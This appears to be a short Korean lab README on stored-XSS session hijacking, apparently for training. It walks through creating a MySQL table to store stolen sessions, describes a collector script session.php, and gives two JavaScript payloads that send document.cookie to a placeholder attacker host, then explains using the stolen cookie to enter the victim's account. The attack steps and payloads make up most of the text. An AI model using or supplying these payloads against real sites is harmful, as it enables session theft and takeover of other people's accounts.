 # 세션 하이재킹 웹어플리케이션 실습

1. 테이블 생성
> mysql -u root
> create database xss_attack;
> use xss_attack;
>
> create table session_list(date date, ip varchar(15), session varchar(50));
>
> desc session_list;
>
> select * from session_list;

2. session.php 추가
- data parameter를 통해 세션 정보를 탈취해서 db에 저장

3. STORED XSS를 통한 세션 하이재킹 공격 실습
    1. 브라우저 두개를 열고 실습
    2. 세션 하이재킹 스크립트
    ```javascript
    // 방법1
    location.href = "http://IP_ADDRESS/xss_attack/session.php" + document.cookie;
    // 방법2
    new Image().src = "http://IP_ADDRESS/xss_attack/session.php" + document.cookie;
    ```
    3. 저장된 세션 정보로 브라우저 개발자 도구에서 세션을 변경하면 해당 사용자의 계정으로 접근 가능